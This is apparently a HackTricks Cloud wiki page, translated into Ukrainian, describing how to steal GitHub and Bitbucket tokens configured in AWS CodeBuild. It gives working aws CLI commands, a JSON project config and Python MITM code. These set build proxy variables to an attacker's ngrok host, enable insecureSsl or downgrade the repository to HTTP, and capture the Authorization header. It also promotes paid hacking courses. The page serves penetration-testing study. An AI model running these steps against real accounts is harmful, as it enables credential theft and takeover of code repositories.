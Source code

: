 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Відновлення токенів, налаштованих у Github/Bitbucket

Спочатку перевірте, чи є налаштовані облікові дані джерела, які ви могли б витікати:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Якщо ви виявите, що автентифікація, наприклад, до Github налаштована в обліковому записі, ви можете **екстрактувати** цей **доступ** (**GH token або OAuth token**), змусивши Codebuild **використовувати конкретний docker image** для виконання збірки проекту.

Для цього ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб налаштувати **Docker image**.

Docker image, який ви можете використовувати, це [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий Docker image, який налаштує **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехопити більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL CERT, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний Docker MitM image**
* Слідуйте інструкціям репозиторію, щоб налаштувати IP-адресу проксі та налаштувати свій SSL сертифікат і **збудуйте docker image**.
* **НЕ НАЛАШТОВУЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
* Ви можете використовувати **`ngrok`** як `ngrok tcp 4444`, щоб налаштувати проксі на вашому хості.
* Після того, як ви збудували Docker image, **завантажте його до публічного репозиторію** (Dockerhub, ECR...)
2. **Налаштуйте середовище**
* Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
* Налаштуйте проект на використання **раніше згенерованого Docker image**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Налаштуйте MitM проксі на вашому хості**

* Як вказано в **Github репозиторії**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Версія **mitmproxy, що використовувалася, була 9.0.1**, повідомлялося, що з версією 10 це може не спрацювати.
{% endhint %}

4. **Запустіть збірку та захопіть облікові дані**

*   Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli з чимось на кшталт

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Через insecureSSL

**Codebuild** проекти мають налаштування під назвою **`insecureSsl`**, яке приховане в вебі, і ви можете змінити його лише через API.\
Увімкнення цього дозволяє Codebuild підключатися до репозиторію **без перевірки сертифіката**, запропонованого платформою.

* Спочатку вам потрібно перерахувати поточну конфігурацію за допомогою чогось на зразок:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Потім, зібравши інформацію, ви можете оновити налаштування проекту **`insecureSsl`** на **`True`**. Наступний приклад показує, як я оновлюю проект, зверніть увагу на **`insecureSsl=True`** в кінці (це єдине, що потрібно змінити в зібраній конфігурації).
* Крім того, додайте також змінні середовища **http\_proxy** та **https\_proxy**, які вказують на ваш tcp ngrok, як:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому тексті** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Цю вразливість виправили AWS на деякий момент тижня 20 лютого 2023 року (я думаю, в п'ятницю). Тож зловмисник більше не може її зловживати :)**
{% endhint %}

Зловмисник з **підвищеними правами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або, якщо права були налаштовані через OAuth, **тимчасовий OAuth токен, використаний для доступу до коду**.

* Зловмисник міг би додати змінні середовища **http\_proxy** та **https\_proxy** до проекту CodeBuild, вказуючи на свою машину (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Потім змініть URL репозиторію github, щоб використовувати HTTP замість HTTPS, наприклад: `http://github.com/carlospolop-forks/TestActions`
* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Тепер зловмисник зможе використовувати токен зі свого комп'ютера, перерахувати всі привілеї, які він має, і (зловживати) легше, ніж безпосередньо використовуючи сервіс CodeBuild.
{% endhint %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
